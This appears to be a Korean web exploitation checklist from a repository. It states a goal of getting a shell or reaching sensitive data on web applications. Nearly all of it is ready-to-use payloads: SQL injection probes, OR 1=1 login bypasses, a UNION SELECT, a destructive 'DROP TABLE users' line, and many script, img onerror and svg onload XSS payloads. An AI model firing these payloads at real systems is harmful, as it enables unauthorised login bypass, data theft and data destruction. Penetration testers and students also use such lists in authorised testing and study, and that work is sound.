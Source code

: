 # 🌐 WEB EXPLOITATION CHECKLIST

> **목표: 웹 애플리케이션의 모든 주요 취약점을 체계적으로 테스트하여 쉘 획득 또는 중요 정보 접근**

## ⚡ 기본 페이로드들

### 💉 SQL Injection 기본 테스트

```bash
# GET 파라미터 기본 테스트
'
"
`
')
")
`)
' OR '1'='1
" OR "1"="1
' OR '1'='1'--
' OR '1'='1'#
' OR '1'='1'/*

# POST 파라미터 기본 테스트
username=admin'--&password=anything
username=admin' OR '1'='1'--&password=anything
username=admin' UNION SELECT 1,2,3--&password=anything

# 숫자형 파라미터
1'
1"
1 OR 1=1
1 OR 1=1--
1 OR 1=1#
1; DROP TABLE users--
```

### 🔗 XSS 기본 테스트

```bash
# 기본 XSS 페이로드
<script>alert('XSS')</script>
<script>alert(1)</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<iframe src=javascript:alert('XSS')>

# 이벤트 핸들러 기반
<div onmouseover="alert('XSS')">test</div>
<input onfocus=alert('XSS') autofocus>
<select onfocus=alert('XSS') autofocus><option>test</option></select>

# JavaScript 문자열 내부
'; alert('XSS'); //
"; alert('XSS'); //
</script><script>alert('XSS')</script>
```
